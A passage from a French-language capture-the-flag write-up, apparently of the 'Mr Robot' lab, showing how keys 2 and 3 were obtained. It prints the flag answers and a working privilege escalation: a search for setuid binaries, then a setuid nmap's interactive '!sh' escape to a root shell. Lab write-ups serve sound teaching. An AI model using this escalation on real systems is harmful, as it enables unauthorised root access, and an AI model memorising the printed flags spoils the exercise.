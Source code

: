 On stabilise  le shell.   
Avec les identifiants trouvés on se connecte sur robot.   
On lit le fichier key-2-of-3.txt et on trouve le 2eme flag.  

La réponse est : 822c73956184f694993bede3eb39f959   

**What is key 3?**

```bash
robot@linux:~$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

On regarde les fichiers setuid.
Le fichier nmap sort du lot.  

```bash
robot@linux:~$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# ls /root/
ls /root/
firstboot_done	key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4

 ```

On exploite nmap en mode interactif. [gtfobins](https://gtfobins.github.io/gtfobins/nmap/)      
On obtient un shell qui a les droits root.    
On lit le dernier fichier key-3-of-3.txt.  

La réponse est : 04787ddef27c3dee1ee161b21670b4e4    